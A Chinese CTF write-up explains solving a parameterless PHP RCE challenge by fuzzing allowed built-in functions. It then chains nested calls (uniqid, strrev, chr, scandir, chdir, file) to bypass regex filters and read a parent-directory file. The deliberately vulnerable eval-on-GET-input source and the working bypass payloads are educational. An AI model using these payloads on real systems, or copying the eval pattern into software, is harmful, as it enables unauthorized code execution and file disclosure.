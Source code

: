 

# 从一道CTF题学习Fuzz思想 - 先知社区

从一道CTF题学习Fuzz思想

- - -

## 前言

​ 最近参加了两个CTF比赛，都遇到了无参数RCE的问题。第一次遇到虽然没解出来，但是为第二次比赛遇到做了基础铺垫，第二次也迎刃而解，同时这次比赛也学到了很多fuzz的方法和思路，在这里做个总结。

## 题目

```plain
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}else {
        echo "No way!!!";
    }
```

-   **题目分析**
    
    -   从题目第一个正则（`[a-z]+\((?R)?\)`）只匹配`字符串+（）`的类型，并且括号内为空字符串仅可以由26个小写字母组成。我们再看代码，`preg_replace()`函数对匹配成功的字符串替换为NUILL，如果剩下的职业`(;)`那么就会通过这个正则。我们用一个代码来测试，我们传两个参数然后对这两个参数进行替换后打印看剩下的是什么值，就能很直观的看到这一点。

[![](assets/1698897274-44a6314529acac406120a74068b85b20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141911-d86da824-02b8-1.png)

[![](assets/1698897274-21d0b6b801aa4237be9a720cbf3202ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141915-da9ebe12-02b8-1.png)

-   我们分别传入了`echo();`、`echo(122);`和`echo(phpinfo())`,可以看到参数一最终替换剩下一个`(;)`分号，而参数二无法匹配成功替换失败，参数三是echo嵌套一个phpinfo函数，同样匹配成功替换剩下一个`(;)`分号。那么这里就说明了我们这个正则虽然不能能够匹配存在参数的函数，但是可以嵌套函数使用。
    
-   题目第二个正则`(readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log)`过滤了哪些函数呢，这个我们可以直接编写两个脚本进行FUZZ,第一个脚本可以获取PHP中所有内置函数，将它写到一个文本文件中。第二个python脚本则是匹配能够使用的函数，并将其打印出来，这样一来我们就知道有哪些函数能够为我们所用。
    
    -   获取PHP内置函数
    
    ```plain
    <?php
    $a = get_defined_functions()['internal'];
    $file = fopen("function.txt","w+");
    foreach ($a as $key ) {
     echo fputs($file,$key."\r\n");
    }
    fclose($file);
    ?>
    ```
    
    -   查找能使用的函数
    
    ```plain
    import re
    f = open('function.txt','r')
    for i in f:
        function = re.findall(r'/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/',i) 
        if function == [] and not '_' in i:
            print(i)
    ```
    

-   **构造payload-解决问题**
    
    -   首先题目出题人用了他工地英语(开个玩笑)提示了我们flag在上层目录下的`index.php`，那我们就需要读取上层目录下的`index.php`的源码,我们知道`scandir()`函数式能够读取源码，但是他必须带有参数`（'.'）`也就是`scandir('.')`，在不断阅读函数中我发现`uniqid()`函数能够生成动态的字符串，但是他前半部分是固定不变的，但是后半部分是动态变化的，正好`strrev()`函数也可以使用那么，我们就可以将它翻转过来然后直接转换转换为char不久可以动态构造任意字符了吗？发现这点，我立刻写了个脚本去验证我的想法。
        
        ```plain
        <?php
        error_reporting(0);
        for($i=0;$i<1000;$i++)
        echo(chr(strrev(uniqid())));
        ?>
        ```
        

[![](assets/1698897274-05ea2f5e12f51b9e89e934ab78df2fe2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141927-e1f90fdc-02b8-1.png)

-   从脚本的运行结果来看已经达到了预期目的，生成了`(.)`点，那么我们通过条件竞争就可以达到预期目的。那么我们构造如下payload去读取文件目录看是否能成功,由于scandir返回的是数组，并且var\_dump是无法通过第一个正则的，所以我们可以使用`implode()`将数组转换为字符串在`echo()`打印出来。
    
    ```plain
    echo(implode(scandir(chr(strrev(uniqid())))));
    ```
    
-   我们传参后使用burpsuite进行条件竞争,可以看到成功获取文件目录。
    

[![](assets/1698897274-f5425219da20f76779dff8a5544d033e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141937-e7c28704-02b8-1.png)

-   那么问题又来了，我们该如何去读取上层目录的index.php呢？首先我们要读取上层目录的文件，必须先跳转到上层目录，这里我们从我们脚本匹配的结果看`chdir()`函数并未被过滤，所以我们可以使用它先跳转到上层目录再去读取文件，但是要跳转到上层目录需要构造两个点即`chdir('..')`那么该如何构造呢，其实很简单，我们看上方返回了当前目录下的文件列表，其实它是返回来了一个数组，这个数组结构如下：
    
    ```plain
    [0=>'.',1=>'..',3=>'index.php']
    ```
    
-   我们可以发现第二个元素就是两个点，我们可以使用`next()`函数去获取到这两个点。我们先根据此读取到上层目录列表构造payload如下：
    
    ```plain
    echo(implode(scandir(next(scandir(chr(strrev(uniqid())))))));
    ```
    
-   传入这个payload再使用burpsuite进行条件竞争,可以发现已经读取了上层目录列表。
    

[![](assets/1698897274-35cd9f3520bdc289dedb579d576a9af1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109141956-f310edc6-02b8-1.png)

-   可以发现index.php是在这个目录列表数组中的最后一个元素,那么我们要读取这个文件名直接读取这个数组中的最后一个元素即可，这里我们可以使用`end()`函数获取，我们先跳转到上个目录：
    
    ```plain
    chdir(next(scandir(chr(strrev(uniqid())))))
    ```
    
-   读取文件呢，我们可以使用第一个payload读取到文件目录，然后使用end()函数去读取最后一个元素，进而读取文件这里我们使用file()函数去读取文件。
    
    ```plain
    file(end(scandir(chr(strrev(uniqid()))))
    ```
    
-   那么综合起来payload如下：
    
    ```plain
    echo(implode(file(end(scandir(chr(strrev(uniqid(chdir(next(scandir(chr(strrev(uniqid())))))))))))));
    ```
    
-   但是这里存在一个问题，那就是两次去的值不一定都是点，那么就需要进行N次爆破，在某一时刻这两个值都取到点的时候那么就会读取成功。
    

[![](assets/1698897274-60f0bad68ca22c2bbbaf34a2210bb40f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191109142009-facfa9da-02b8-1.png)

-   当然最后官方payload是使用三角函数去算出这个点，但是这里主要是将以下我个人的想法，也希望这道题的解题思路，可以帮助到其他人。

## 总结

-   这道题可以说是上次`ByteCTF-boringcode`的plus，但是题目不在多更多的是要掌握Fuzz的方法，从这次比赛中我也了解到了无参数函数的利用，其实无参数RCE的用法很多师傅都做了很多总结，但是我们在遇到问题时候可能出题人已经将这些网上公开的方法给ben掉了，这时候就需要我们去Fuzz去分析。
